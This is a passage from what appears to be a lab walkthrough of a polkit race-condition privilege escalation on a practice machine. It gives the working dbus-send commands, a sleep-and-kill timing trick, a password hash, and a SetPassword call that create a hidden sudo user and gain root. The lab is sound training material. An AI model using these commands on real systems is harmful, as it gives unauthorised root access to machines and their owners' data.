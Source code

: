 >>As this is effectively a race condition, we first need to determine how long our command will take to run. Let's try this with the first dbus message:
```
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```
>>This takes 0.011 seconds, or 11 milliseconds. This number will be slightly different each time you run the command; however, on the provided machine it should always be around this number.

>>Note: For the first five minutes or so of deployment the machine is still booting things in the background, so don't be alarmed if the time you get is a lot longer to begin with -- just keep running the command periodically until it gives you a time in a similar region to the results above.

>>We need to kill the command approximately halfway through execution. Five milliseconds usually works fairly well on the provided machine; however, be aware that this is not an exact thing. You may need to change the sleep time, or run the command several times before it works. That said, once you find a time that works, it should work consistently. If you are struggling to get a working time, putting the command inside a bash for loop and quickly running through a range of times tends to work fairly well.

>>Let's try this. We need to send the dbus message, then kill it about halfway through:
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```
>>To explain the above command, we sent the dbus message in a background job (using the ampersand to background the command). We then told it to sleep for 5 milliseconds (sleep 0.005s), then kill the previous process ($!). This successfully created the new user, adding them into the sudo group.
We should note down at this point that the user ID of the new user in this instance is 1000.

>>Now all we need to do is give the user a password and we should be good to go!

>>We need a password hash here, so let's generate a Sha512Crypt hash for our chosen password (Expl01ted):
```
openssl passwd -6 Expl01ted
```
>>Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (Expl01ted).

>>Now let's finish this! 5 milliseconds worked last time, so it should work here too:
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```
>>With a hop, su, and a sudo -s, we have root!

----

# Task 5 Practical Do it for yourself!
----
